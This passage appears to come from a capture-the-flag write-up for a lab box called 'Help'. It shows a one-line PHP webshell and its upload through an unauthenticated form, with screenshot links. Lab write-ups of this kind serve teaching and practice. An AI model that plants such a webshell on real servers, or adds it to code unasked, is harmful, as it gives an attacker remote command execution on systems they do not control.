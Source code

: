 #### Uploading a webshell

We will utilize a simple php webshell and upload it using the form. We don’t need to be authenticated to do this.

{% highlight shell %}
┌──(iwo㉿kali)-[~/boxes/help/payloads]
└─$ cat webshell.php 
<?php system($_REQUEST['cmd']); ?>
{% endhighlight %}

![Upload the webshell](/assets/img/posts/Help/upload-the-webshell.png)

We get an error, however we ignore it as the file went through.

![Upload the webshell error](/assets/img/posts/Help/upload-the-webshell-error.png)
